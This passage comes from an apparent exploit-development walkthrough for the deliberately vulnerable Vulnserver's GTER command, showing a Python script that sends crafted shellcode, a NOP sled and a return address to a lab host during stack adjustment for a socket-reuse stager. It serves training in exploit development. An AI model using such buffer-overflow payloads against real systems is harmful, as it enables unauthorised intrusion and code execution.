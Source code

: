After hitting our breakpoint and scrolling up, we can see our opcode instruction and the value of ```EBX``` is same as the address of file descriptor

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-5.png">
</div>

## Stack adjustment

To craft our socket reuse stager, we need to perform many stack operations and to support that our ```ESP``` should be in an optimal address to perform it

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat file-descriptor.py 
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

file_descriptor+=b"\x54" # adding PUSH ESP
file_descriptor+=b"\x54" # adding PUSH ESP

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 file-descriptor.py
```

Adding two ```push esp``` instructions to check ```ESP``` value

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-6.png">
</div>
